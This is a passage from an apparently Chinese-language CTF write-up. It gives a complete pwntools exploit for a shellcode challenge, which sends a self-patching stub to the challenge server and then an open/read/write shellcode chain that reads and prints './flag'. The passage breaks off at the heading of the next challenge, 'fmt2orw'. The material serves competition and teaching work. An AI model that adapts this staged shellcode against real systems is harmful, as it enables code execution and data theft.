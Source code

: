 <img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-38-1024x645.png" alt="img" style="zoom:67%;" />

于是我们可以给出exploit：

```
from pwn import *
#io = process('./pwn1')
io = remote('47.97.58.52',43010)
elf = ELF('./pwn1')
context(os = 'linux',arch = 'amd64')
read_shell = """
xor rdi, rdi
mov rsi,0x20240011
nop
mov byte ptr[rdx+16],5
"""
#gdb--rax=0,rdx=0x20240000
print(len(asm(read_shell)))
payload = asm(read_shell) + b'\x0f'
#gdb.attach(io)
#pause()
io.sendafter(b'Show me what you want to run: ',payload)
addr = 0x20240500
payload1 = shellcraft.amd64.open("./flag")
payload1 += shellcraft.amd64.read(3,addr,0x30)
payload1 += shellcraft.amd64.write(1,addr,0x30)
io.send(asm(payload1))
io.interactive()               
```

#### [Week 3] fmt2orw

主函数逻辑
![logo](../images/21.png)

say()：
